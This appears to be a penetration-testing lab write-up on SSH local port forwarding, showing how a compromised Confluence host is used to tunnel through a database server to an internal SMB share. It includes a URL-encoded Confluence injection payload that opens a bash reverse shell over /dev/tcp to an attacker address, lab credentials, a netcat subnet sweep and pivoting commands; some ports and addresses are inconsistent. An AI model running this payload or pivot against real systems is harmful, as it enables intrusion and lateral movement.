



---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# SSH Local Port Forwarding

With Local Port Forwarding, as seen in [this example](../simple-port-forwarding-scenario.md), the receiving and forwarding happen on the same machine. In that example `CONFLUENCE01` was compromised and a port forward was set up to allow access to the `PGDATABASE01` machine on the internal network as seen below:

<figure><figcaption><p>Simple port forwarding</p></figcaption></figure>

**SSH local port forwarding** adds a layer to this. Instead of the same machine receiving the traffic and forwarding it directly to the target (`CONFLUENCE01` above), the traffic will be sent through an SSH tunnel before being forwarded to the victim. In this instance `CONFLUENCE01` will act as an SSH client, `PGDATABASE01` as an SSH server, and the victim could be anything visible to `PGDATABASE01`:

<figure><figcaption><p>Using an SSH tunnel for local port forwarding</p></figcaption></figure>

## Setting Up SSH Local Port Forward

### Establishing an SSH Tunnel

The first step is to get the reverse shell as seen in the [earlier example](../simple-port-forwarding-scenario.md#reverse-shell):


```bash
curl http://192.168.205.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.159/4444%200%3E%261%27%29.start%28%29%22%29%7D/
```


Once the shell has been created it  should be stabilized to a full TTY shell as shown in [this example](../../shells/reverse-shell/netcat.md#python). This results in a full TTY session. This session can be used to launch an SSH session to PGDATABASE01 using the credentials found in the [earlier example](../simple-port-forwarding-scenario.md#cracking-the-hash) (`database_admin:sqlpass123`):

```bash
confluence@confluence01:/tmp/confluence$ ssh database_admin@10.4.205.215
Could not create directory '/home/confluence/.ssh'.
The authenticity of host '10.4.205.215 (10.4.205.215)' can't be established.
ECDSA key fingerprint is SHA256:GMUxFQSTWYtQRwUc9UvG2+8toeDPtRv3sjPyMfmrOH4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Failed to add the host to the list of known hosts (/home/confluence/.ssh/known_hosts).
database_admin@10.4.205.215's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-125-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 27 Jan 2024 10:46:42 PM UTC

  System load:  0.0               Processes:               234
  Usage of /:   80.4% of 6.79GB   Users logged in:         0
  Memory usage: 15%               IPv4 address for ens192: 10.4.205.215
  Swap usage:   0%                IPv4 address for ens224: 172.16.205.254


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu Feb 16 21:49:42 2023 from 10.4.50.63
database_admin@pgdatabase01:~$ 
```

At this point the SSH Tunnel has been established.

### Enumerating the Tunnel Endpoint

Now that there is a fully interactive SSH shell session running on `PGDATABASE01` (via `CONFLUENCE01`) it is time to see what is accessible from this new vantage point. It will start with enumerating of the [network interfaces](../../../linux/privilege-escalation/enumeration/manual-enumeration.md#network-interfaces) and [routes](../../../linux/privilege-escalation/enumeration/manual-enumeration.md#accessible-routes) via the `ip addr` and `ip route` commands respectively:

```bash
database_admin@pgdatabase01:~$ ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
4: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:50:56:bf:bd:12 brd ff:ff:ff:ff:ff:ff
    inet 10.4.205.215/24 brd 10.4.205.255 scope global ens192
       valid_lft forever preferred_lft forever
5: ens224: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:50:56:bf:53:7c brd ff:ff:ff:ff:ff:ff
    inet 172.16.205.254/24 brd 172.16.205.255 scope global ens224
       valid_lft forever preferred_lft forever
```

```bash
database_admin@pgdatabase01:~$ ip route
default via 10.4.205.254 dev ens192 proto static 
10.4.205.0/24 dev ens192 proto kernel scope link src 10.4.205.215 
172.16.205.0/24 dev ens224 proto kernel scope link src 172.16.205.254
```

It turns out `PGDATABASE01` is attached to another subnet, this time in the `172.16.50.0/24` range. Unfortunately the attacker does not find a port scanner installed on `PGDATABASE01`; but they can still do some initial reconnaissance with the tools that are available.

#### Network Enumeration

The technique described [here](../../../networking-tools/netcat/other-uses.md#host-detection) can be used to discover hosts listening on port 445 of the subnet accessible via `ens224` on `PGDATABASE01`:

```
port=445; for i in $(seq 1 254); do nc -zv -w 1 172.16.205.$i $port; done
```

There are a few hosts listening:

```
kali@kali:~$ port=445; for i in $(seq 1 254); do nc -zv -w 1 172.16.205.$i $port; done
nc: connect to 172.16.205.1 port 445 (tcp) timed out: Operation now in progress
nc: connect to 172.16.205.2 port 445 (tcp) timed out: Operation now in progress
nc: connect to 172.16.205.3 port 445 (tcp) timed out: Operation now in progress
...
Connection to 172.16.205.217 445 port [tcp/microsoft-ds] succeeded!
...
nc: connect to 172.16.205.254 port 445 (tcp) failed: Connection refused
```

One host was found at `172.16.205.217`.

### SSH Local Port Forward

What was shown above can sort of be thought of as a "manual" SSH port forward. If the attacker wants to attack the machine found at 172.16.205.217, they would have to:

1. Compromise `CONFLUENCE01` with a reverse shell
2. Stabilize the shell
3. Manually SSH into `PGADATABASE01`
4. Use `PGDATABASE01` as a new pivot point to reach `172.16.205.217`

These steps need to be repeated any time the attacker needs to re-initiate a connection. It would be simpler if an SSH listener could be set up on `CONFLUENCE01` listening on the WAN side for SSH connections. This listener could be set up to forward traffic to `172.16.205.217` via `PGDATABASE01` (through an SSH tunnel).

#### Command Structure

This can be done by setting up an SSH local port forward on `CONFLUENCE01`. The general structure for doing this is shown below ([source](https://www.ssh.com/academy/ssh/tunneling-example)):

```
ssh -L $LPORT:$DHOST:$DPORT ssh_user@ssh_host
```

* `$LPORT` is the port that will be opened to listen for incoming SSH connections
* `$DHOST` and `$DPORT` are the destination host and port
  * This is where traffic will be forwarded after exiting the tunnel i.e. the final destination
* `ssh_user@ssh_host` is the SSH server which serves as the exit point of the SSH tunnel

The connection shown above would be open to anyone to connect. An optional bind address can be used to make it so only certain addresses can connect:

```
ssh -L $BADDRESS:$LPORT:$DHOST:$DPORT ssh_user@ssh_host
```

* `$BADDRESS` is the IP from which connections will be supported
  * Can be set to `127.0.0.1` to restrict the forward to local clients only
  * Can be set to `0.0.0.0` which will allow connections from _any_ incoming IP

For example to set up a bind that would listen on port `1234`, only accept incoming connections from `192.168.45.159`, and would forward traffic to port `22` on `172.65.205.45` via an SSH tunnel ending at `192.168.55.209` set up with an account named `user`; the command would be:

```
ssh -L 192.168.45.159:1234:172.65.205.45:22 user@192.168.55.209
```

#### In Example

In the case of the example a global listener can be used on a port of the attacker's choosing (4455 for the example). The only modifications to what is seen above will be the addition of a -N flag to prevent a remote command from being executed (shell being opened):

```bash
ssh -N -L 0.0.0.0:4444:172.16.205.45:445 database_admin@10.4.205.215
```

* `-N` do not execute a remote command. This is useful for just forwarding ports (protocol version 2 only)

This command does not generate any output but also does not return it just creates the listener:

```
confluence@confluence01:/tmp/confluence$ ssh -N -L 0.0.0.0:4444:172.16.228.205:445 database_admin@10.4.205.215
Could not create directory '/home/confluence/.ssh'.
The authenticity of host '10.4.205.215 (10.4.205.215)' can't be established.
ECDSA key fingerprint is SHA256:GMUxFQSTWYtQRwUc9UvG2+8toeDPtRv3sjPyMfmrOH4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Failed to add the host to the list of known hosts (/home/confluence/.ssh/known_hosts).
database_admin@10.4.205.215's password: 


```

While nothing in this session shows that the SSH listener is created, it is possible to create another reverse shell to CONFLUENCE01 and check that the listener exists via the command:

```bash
ss -ntplu
```

This does indeed show the SSH listener:

```bash
confluence@confluence01:/opt/atlassian/confluence/bin$ ss -ntplu
ss -ntplu
Netid  State   Recv-Q  Send-Q         Local Address:Port     Peer Address:Port  Process                                                                         
...
tcp    LISTEN  0       128                  0.0.0.0:4455          0.0.0.0:*      users:(("ssh",pid=3503,fd=4))
```

After the listener is created the situation looks like this (`HRSHARES` is the machine hosting SMB at `172.16.205.45`):

<figure><figcaption><p>Port forwarded from outside to HRSHARES</p></figcaption></figure>

#### Sending Traffic Through the Tunnel

Now from the attacker's own machine they can connect directly to port `445` on `172.16.205.45` by sending traffic to `CONFLUENCE01` (`192.168.205.63`) at port `4455`:

```bash
kali@kali:~$ smbclient -p 4455 -L //192.168.205.63/Scripts -U hr_admin --password=Welcome1234

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Scripts         Disk      
	Users           Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 192.168.205.63 failed (Error NT_STATUS_CONNECTION_REFUSED)
Unable to connect with SMB1 -- no workgroup available
```

* The credentials for hr\_admin were cracked in the [earlier example](../simple-port-forwarding-scenario.md#cracking-the-hash)

Unfortunately the connection was refused but it did reveal a /Scripts that can probably be connected to:

```
$ smbclient -p 4444 //192.168.205.63/scripts -U hr_admin --password=Welcome1234
Try "help" to get a list of possible commands.
smb: \> 
```

Success! The attacker has now moved another step into the network. They can now access the SMB share on `172.16.205.45` as if they are sitting inside the network.
